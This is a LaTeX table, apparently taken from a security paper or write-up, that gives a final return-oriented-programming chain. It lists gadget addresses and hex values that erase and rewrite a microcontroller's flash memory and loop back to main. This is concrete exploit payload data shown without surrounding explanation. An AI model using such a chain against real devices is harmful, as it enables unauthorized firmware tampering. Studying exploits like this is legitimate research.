 \begin{table}[htbp]
  \centering
  \caption{The final ROP design. }
    \begin{tabular}{rrrr}
    \toprule
    Gadget     & Pop into R4 & Pop into PC & Description \\
    \midrule
               & 3030 3030  & 3030 3030  & Fluff \\
               & 3030 3030  & 3030 3030  & Fluff \\
               & 0000 0000  & 0000 0000  & Fluff \\
               & 0000 0000  & 0000 0000  & Fluff \\
               & 0000 0000  & 0000 0000  & Fluff \\
    pop \{pc\}   & 7536 0000  &            & Return to A0 \\
    A0         & 0048 0000  & a742 0000  & Erase address \\
    B          & 00d0 0f40  & 7336 0000  & Write erase address \\
    A          & 0200 42a4  & a742 0000  & Erase command \\
    B          & 08d0 0f40  & 7336 0000  & Write erase command \\
    A          & e04b 0000  & a742 0000  & main address \\
    B          & 00d0 0f40  & 7336 0000  & Write main address \\
    A          & 00f1 0100  & a742 0000  & add R0,\#0x1 \\
    B          & 20d1 0f40  & 7336 0000  & Write add \\
    A          & fce7 5555  & a742 0000  & b main \\
    B          & 24d1 0f40  & 7336 0000  & Write b \\
    A          & ffff ffff  & a742 0000  & Clear write buffer \\
    B          & 30d0 0f40  & 7336 0000  & Write clear \\
    A          & 0100 42a4  & a742 0000  & Flash key \\
    B          & 20d0 0f40  & 7336 0000  & Write flash key \\
    A          & 584b 0000  & a742 0000  & Scatter addr \\
    B          & 00d0 0f40  & 7336 0000  & Write scatter addr \\
    A          & 42e0 0000  & a742 0000  & b main \\

\end{tabular}
\end{table}
